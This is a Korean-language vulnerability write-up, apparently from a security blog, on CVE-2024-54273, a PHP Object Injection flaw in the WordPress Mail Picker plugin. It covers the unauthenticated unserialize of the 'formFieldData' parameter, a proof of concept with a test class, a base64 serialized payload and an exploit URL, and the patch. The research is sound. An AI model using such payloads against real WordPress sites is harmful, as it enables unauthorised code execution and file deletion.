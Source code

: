 ```yaml
---
title: "[CVE-2024-54273] 취약점 분석 보고서"
description: "WordPress 플러그인 Mail Picker 버전 1.0.14 이하에서 발생한 PHP Object Injection 취약점"
author: dottak
date: 2024-12-23 14:51:00 +0900
categories: [One-Day 분석, WordPress]
tags: [빡공팟, 콘테스트 네뷸라, WordPress, CVE, PHP Object Injection]
image: assets/img/wordpress-thumbnail.png
exclude_img: true
---
```


## 📌 Analysis

### 1. 개요

CVE-2024-54273 에서는 WordPress 플러그인 Mail Picker 버전 1.0.14 이하에서 PHP Object Injection 취약점이 발견되었습니다. Mail Picker 플러그인은 이메일을 통한 마케팅 및 뉴스레터 발송을 지원하는 플러그인으로, 해당 플러그인에서는 알려진 POP Chain이 없으나 워드프레스 사이트에 추가 플러그인 및 테마에 POP Chain이 있는 경우 공격자는 해당 취약점을 통해 임의 파일 삭제, 민감 데이터 노출, 코드 실행 등 악의적인 행위를 일으킬 수 있습니다.

### 2. 분석 준비

Mail Picker 플러그인은 구독 폼 생성 페이지(`/wp-admin/post-new.php?post_type=subscriber_form`)에서 폼을 생성할 때, 폼을 삽입할 수 있는 Shortcode(`[mail_picker_form id='7']`)를 확인하실 수 있습니다.

![image](assets/posts/one-day/2024-12-23/image-001.png)

해당 이메일 구독 폼을 생성할 때는 reCaptcha 옵션을 비활성화 하고 폼 내 입력 값을 이메일(`subscriber_email`), 핸드폰 번호(`subscriber_phone`)를 선택합니다.

![image](assets/posts/one-day/2024-12-23/image-002.png)

위와 같이 만들어진 이메일 구독 폼은 포스트 또는 페이지를 생성할 때, Short Code로 입력할 수 있습니다.

![image](assets/posts/one-day/2024-12-23/image-003.png)

이렇게 만들어진 글은 공개 시 아래의 이메일 구독 폼으로 완성됩니다.

![image](assets/posts/one-day/2024-12-23/image-004.png)

### 3. 취약점 분석

이메일 구독 폼에 각 입력 폼(이메일, 핸드폰 번호)에 맞는 데이터를 입력하고 제출(Submit)을 수행할 경우 현재 페이지의 URL로 폼 요청(POST 메소드 요청)이 발생합니다.

![image](assets/posts/one-day/2024-12-23/image-005.png)

이때 Mail Picker 플러그인의 `/wp-content/plugins/mail-picker/templates/mail-picker-form/mail-picker-form.php` 파일에서는 아래의 과정을 통해 URL 파라미터 `mail_picker_action=add_subscriber`, `formFieldData=<base64 인코딩 데이터>`, `subscriber_status=pending` 를 가지는 URL로 GET 요청을 수행합니다.

이 중 URL 파라미터 `formFieldData` 는 아래의 과정을 통해 설정됩니다.

1. 입력 폼에서 사용자가 입력한 데이터를 가져옵니다.
2. 가져온 데이터를 PHP의 serialize 함수로 직렬화합니다.
3. 직렬화된 데이터는 base64 방식으로 인코딩됩니다.
4. 인코딩된 데이터를 URL 파라미터 `formFieldData`의 값으로 설정합니다.

![image](assets/posts/one-day/2024-12-23/image-006.png)

이어서 GET 요청 URL은 URL 파라미터 `mail_picker_action=add_subscriber` 에 의해 `web/app/wp-content/plugins/mail-picker/includes/classes/class-manage-subscriber.php` 의 `add_subscriber` 함수를 호출합니다. 

이때, 해당 함수를 호출할 때 아래의 두 가지 문제가 발생하게 됩니다.

- 첫 번째, 요청을 수행한 사용자에 대한 권한 검사를 수행하지 않는다.
- 두 번째, URL 파라미터 `formFiledData` 에 대한 역직렬화를 수행합니다.

![image](assets/posts/one-day/2024-12-23/image-007.png)

따라서, 인증되지 않은 사용자가 Base64로 인코딩된 직렬화된 데이터를 URL `?mail_picker_action=add_subscriber&formFieldData=<base64 인코딩 데이터>&subscriber_status=pending` 에서 URL 파라미터 `formFieldData` 에 삽입할 경우 Base64로 디코딩 된 다음 함수 `unserialize` 에 의해 역직렬화를 수행하므로 Base64로 디코딩된 값에 직렬화된 데이터가 삽입될 경우 PHP Object Injection 취약점이 발생하게 됩니다.

## 📌 PoC

### 1. POP Chain 준비

아래의 코드를 `wp-config.php` 파일 내 하단에 추가합니다.

```php
class PoC_POP_Chain_Object {
	
	public $message = "";

	public function __destruct() {
		echo "<mark>Success PoP Chain</mark>";
		echo "<br>";
		echo "<mark>msg: ". $this->message ."</mark>";
	}
}
```

![image](assets/posts/one-day/2024-12-23/image-008.png)

### 2. 직렬화된 데이터 준비

POP Chain을 위해 추가한 `PoC_POP_Chain_Object` 클래스에 `message` 가 `Exploit !!` 인 객체의 직렬화 데이터는 다음과 같습니다.

```
O:20:"PoC_POP_Chain_Object":1:{s:7:"message";s:10:"Exploit !!";}
```

이 데이터를 Base64로 디코딩하면 다음과 같습니다.

```
TzoyMDoiUG9DX1BPUF9DaGFpbl9PYmplY3QiOjE6e3M6NzoibWVzc2FnZSI7czoxMDoiRXhwbG9pdCAhISI7fQ
```

### 3. Exploit

Base64로 인코딩된 `PoC_PoP_Chain_Object` 클래스 객체의 직렬화 데이터를 URL 파라미터 `formFiledData`에 삽입합니다. 그리고 URL 파라미터 `mail_picker_action`의 값을 `add_subscriber`로, `subscriber_status`의 값을 `pending`으로 설정합니다.

완성된 URL은 다음과 같습니다.

```
http://localhost:8080/?mail_picker_action=add_subscriber&formFieldData=TzoyMDoiUG9DX1BPUF9DaGFpbl9PYmplY3QiOjE6e3M6NzoibWVzc2FnZSI7czoxMDoiRXhwbG9pdCAhISI7fQ&subscriber_status=pending
```

이후 해당 URL에 접속할 경우 다음과 같이 PHP Object Injection 취약점을 이용하여 POP Chain이 동작하는 것을 확인할 수 있으며, 직렬화된 객체의 `message` 값인 `Exploit !!`이 출력됩니다.

![image](assets/posts/one-day/2024-12-23/image-009.png)

## 📌 패치 확인

> https://plugins.trac.wordpress.org/changeset/3206691/mail-picker?old=3126661&old_path=%2Fmail-picker#file83
> 

1.0.14 버전 이하에서는 직렬화된 데이터를 base64로 인코딩하여 직렬화된 데이터를 전송 했지만 패치된 1.0.15 버전에서는 직렬화 데이터 없이 데이터를 직접 전송하도록 변경되었습니다.(`/wp-content/plugins/mail-picker/templates/mail-picker-form/mail-picker-form.php` 파일 내 `mail_picker_form` 함수)

![image](assets/posts/one-day/2024-12-23/image-010.png)

이에 취약점 트리거가 발생하는 위치(`/wp-content/plugins/mail-picker/includes/classes/class-manage-subscriber.php` 파일 내 `add_subscriber` 함수)에서도 역직렬화 함수 `unserialize` 를 제거하고 요청 데이터로부터 값을 그대로 사용하는 것을 확인하실 수 있습니다.

![image](assets/posts/one-day/2024-12-23/image-011.png)

따라서, 패치 버전 1.0.15 버전부터는 사용자 입력값을 직렬화하지 않고 순수한 데이터 형태로 처리함으로써 PHP Object Injection 취약점을 원천적으로 차단하는 방식으로 패치되었습니다.